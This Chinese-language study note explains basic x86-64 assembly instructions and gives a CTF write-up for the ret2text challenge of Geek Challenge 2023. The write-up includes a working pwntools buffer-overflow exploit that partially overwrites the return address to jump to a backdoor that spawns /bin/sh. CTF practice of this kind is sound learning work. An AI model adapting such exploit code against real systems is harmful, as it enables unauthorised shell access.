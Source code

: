 # 汇编基础

## 基本指令

```python
.text:000000000000120E                               ; __unwind {
.text:000000000000120E F3 0F 1E FA                   endbr64
.text:0000000000001212 55                            push    rbp
.text:0000000000001213 48 89 E5                      mov     rbp, rsp
.text:0000000000001216 48 83 EC 10                   sub     rsp, 10h
.text:000000000000121A C7 45 FC 00 00 00 00          mov     [rbp+var_4], 0
.text:0000000000001221 83 7D FC 01                   cmp     [rbp+var_4], 1#不为零则跳转（即不相同就跳转）
.text:0000000000001225 75 11                         jnz     short loc_1238#如果上一次比较不相等就跳转
.text:0000000000001225
.text:0000000000001227 48 8D 3D DA 0D 00 00          lea     rdi, command                    ; "/bin/sh"
.text:000000000000122E B8 00 00 00 00                mov     eax, 0
.text:0000000000001233 E8 58 FE FF FF                call    _system
.text:0000000000001233
```

==mov eax,1【eax为目的操作数，1为源操作数】---目的操作数的内容会发生改变，而源操作数不会改变==

==cmp指令：通过让目的操作数减去源操作数来判断他俩是否相等，结果为0则不跳转继续执行下一个指令；如果结果不为0，就说明他俩不相等，此时在jnz进行跳转==

==jnz指令：如果上一次比较不相等就发生跳转==

# 极客大挑战2023--PWN

## ret2text

```python
from pwn import *
#p = process('./ret2text')
p = remote('pwn.node.game.sycsec.com',30867)
#gdb.attach(p)
elf = ELF('./ret2text')
context(os="linux",arch="amd64",log_level='debug')
p.recv()
payload =  b'a'*88 + b'\x27'#因为返回地址和backdoor的高两位相同，所以只用覆盖掉低两位就可以返回到backdoor
p.send(payload)
p.interactive()
```

```python
下面为ida中vuln函数汇编
text:000000000000123B                               ; __unwind {
.text:000000000000123B F3 0F 1E FA                   endbr64
.text:000000000000123F 55                            push    rbp
.text:0000000000001240 48 89 E5                      mov     rbp, rsp
.text:0000000000001243 48 83 EC 50                   sub     rsp, 50h
.text:0000000000001247 48 8D 3D C2 0D 00 00          lea     rdi, s                          ; "The simplest but not too simple pwn"
.text:000000000000124E E8 2D FE FF FF                call    _puts
.text:000000000000124E
.text:0000000000001253 48 8D 45 B0                   lea     rax, [rbp+buf]
.text:0000000000001257 BA 60 00 00 00                mov     edx, 60h ; '`'                  ; nbytes
.text:000000000000125C 48 89 C6                      mov     rsi, rax                        ; buf
.text:000000000000125F BF 00 00 00 00                mov     edi, 0                          ; fd
.text:0000000000001264 B8 00 00 00 00                mov     eax, 0
.text:0000000000001269 E8 32 FE FF FF                call    _read
.text:0000000000001269
```